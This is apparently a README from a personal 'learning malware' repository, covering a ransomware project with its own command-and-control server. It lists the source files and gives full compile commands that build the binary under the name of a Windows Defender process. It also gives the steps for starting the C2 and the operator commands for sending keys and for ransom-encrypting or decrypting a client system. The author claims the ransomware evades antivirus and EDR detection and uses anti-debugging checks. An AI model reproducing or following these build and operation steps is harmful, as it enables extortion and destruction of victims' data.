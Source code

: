 # 17 - Putting It All Together
This is the last project in my Learning Malware project. From knowing nothing about malware development, I've created malware that is undetectable by anti-virus and EDR solutions, created my own infrastructure and C2, and leanred many interseting anti-foresnics techniques to look out for when reverse engineering. 

This ransomware uses custom assembly to get the PEB, and check if the executable is in a debugger. If it is, it halts execution. I will leave it as an exercise to the reader to implement the self deleting code (Module 8). 

### File Structure
- C2 Server
  - c2.py -> handles C2 logic (runs as a background process)
  - cli.py -> to interface with the C2
- Ransomware
  - decrypt.cpp
  - decrypt.h
  - encrypt.cpp
  - encrypt.h
  - enumerate_files.cpp
  - enumerate_files.h
  - getPEBasm.asm
  - win_client.cpp
  - win_client.h

### Compilation
To compile the assembly:
- `ml64 /c /Fo .\getPEB.obj .\getPEBasm.asm`
To compile the ransomware:
`g++ win_client.cpp encrypt.cpp decrypt.cpp enumerate_files.cpp getPEB.obj -o NisSrv.exe -L"C:/Users/thoma/Downloads/openssl-3.3.0/" -I"C:/Users/thoma/Downloads/openssl-3.3.0/include/" -lssl -lcrypto -lws2_32 -liphlpapi -lpsapi -lnetapi32 -lbcrypt -lcrypt32  -static-libgcc -static-libstdc++ -static -lpthread -mwindows`

### Running
To setup the C2 server, simply run: `python3 c2.py`. To interface with the C2, run the cli either locally or remotely with `python3 cli.py <host> <port>`. Replace "<host>" and "<port>" with the respective host and port numbers of the listening interface on the C2.

To execute the different modules of the malware, you can run the following commands
```
    send_private_key <client_id> - Send the private key to the specified client.
    encryptFile <client_id> <filename> - encrypts a specified file using the client's public key
    decyrptFile <client_id> <filename> - decrypts a file using the host's private key
    ransomEncrypt <client_id> - encrypts system using transmitted public key
    ransomDecrypt <client_id> - decrypts specified system
    exit - Exit the CLI tool.
    help - Show this help menu.
```

### Demo


### VirusTotal
![Virus Total page shows zero vendors found this code to be malicious](Assets/vtotal.png)